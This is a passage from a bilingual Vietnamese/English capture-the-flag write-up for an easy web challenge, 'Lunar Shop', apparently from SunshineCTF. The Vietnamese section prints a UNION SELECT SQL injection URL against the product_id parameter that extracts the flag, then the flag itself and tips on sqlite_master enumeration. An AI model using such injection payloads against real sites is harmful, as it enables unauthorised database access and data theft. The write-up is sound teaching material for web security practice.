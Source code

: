     
5. **Lấy flag:**
    
    ```
    <https://meteor.sunshinectf.games/product?product_id=-1> UNION SELECT 1,flag,3,4 FROM flag--
    
    ```

    <img width="1112" height="321" alt="image" src="https://github.com/user-attachments/assets/4231c0c8-b644-49f3-9164-e9975127c66f" />

   

---

**Kết quả (Flag)**

Sau khi thực hiện payload cuối cùng, flag sẽ được hiển thị trên trang.

`sun{baby_SQL_injection_this_is_known_as_error_based_SQL_injection_8767289082762892}`

---

## Ghi chú và mẹo

- Đây là một bài tập SQL Injection cổ điển, giúp người chơi thực hành quy trình khai thác từ A đến Z: phát hiện, enum và trích xuất.
- Các thông báo lỗi của máy chủ web hoặc cơ sở dữ liệu là nguồn thông tin vô giá. Trong trường hợp này, lỗi đã xác nhận lỗ hổng và tiết lộ số lượng cột.
- Cảnh báo "No Fuzzing" là một gợi ý mạnh mẽ để tìm kiếm các lỗ hổng logic hoặc injection thay vì các cuộc tấn công brute-force.
- Với các database SQLite, bảng `sqlite_master` luôn là điểm khởi đầu để khám phá cấu trúc bên trong.

---

# ENGLISH VERSION

**Category:** Web

**Difficulty:** Easy

---

## Challenge Overview

The challenge provides a web application called "Lunar Shop," a simple online store. The site allows users to view products via a URL parameter, e.g., `/product?product_id=1`. The challenge description mentions an "unreleased flag product" and includes a critical warning: "Fuzzing is NOT allowed," which suggests that brute-forcing product IDs is not the intended solution.

---

## Objective

The main objective is to exploit an SQL Injection vulnerability in the `product_id` parameter to read data from the application's database, ultimately finding and extracting the hidden flag.

---
